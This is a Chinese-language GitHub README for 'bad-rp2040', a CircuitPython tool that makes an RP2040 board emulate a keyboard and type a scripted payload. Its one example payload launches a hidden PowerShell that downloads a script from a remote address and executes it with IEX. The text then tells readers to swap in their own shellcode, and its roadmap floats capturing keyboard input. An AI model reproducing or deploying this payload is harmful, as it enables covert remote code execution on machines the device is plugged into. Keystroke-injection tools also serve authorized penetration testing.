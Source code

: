 # bad-rp2040

第一版 还要修修

## 使用教程

虽然名字叫做bad-rp2040，但理论上它可以支持其他能够使用CircuitPython的板子。

* 第一步
  
  按住BOOT按键进入烧入模式从[这里](https://circuitpython.org/board/raspberry_pi_pico/)找到合适的CircuitPython固件烧入

* 第二步
  
  烧入完成后再下载项目文件，修改payload.txt为你想要的内容，之后写入磁盘模式的开发板

* 第三步
  
  重新插拔开发板，不出意外开发板会自动模拟按键输入编写好的payload


### payload语法

> 目前尚在开发中，很多功能并不全面画横线的表示正在开发中

可用案例：
```badusb
set Time 1
POWERSHELL
TOGGLE_INPUT
ECHO powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.255.1:8029/a'))"
```
将最后的echo内容替换为你的shellcode即可

内置了快捷使用的模组
* POWERSHELL
* TOGGLE_INPUT 输入法切换
* ~~WINDOWS~~
* ~~LINUX~~
* ~~CMD~~
* ~~SHELL~~

根据需求调用即可，echo语句用于输出字符串

### 语法表

| 命令     | 作用                       |
-----------|---------------------------|
| set Time | 设置按键间隔时间     |

#### 注意

如自行编写payload.txt，请注意windows的自动大小写问题

### 后续开发计划

短期
* 完成目前列出的所有模组
* 完成计划的语法

长期
* 是否可以做到监听键盘输入

![run](https://s2.loli.net/2024/12/04/d4NjluG9nEImwUB.png)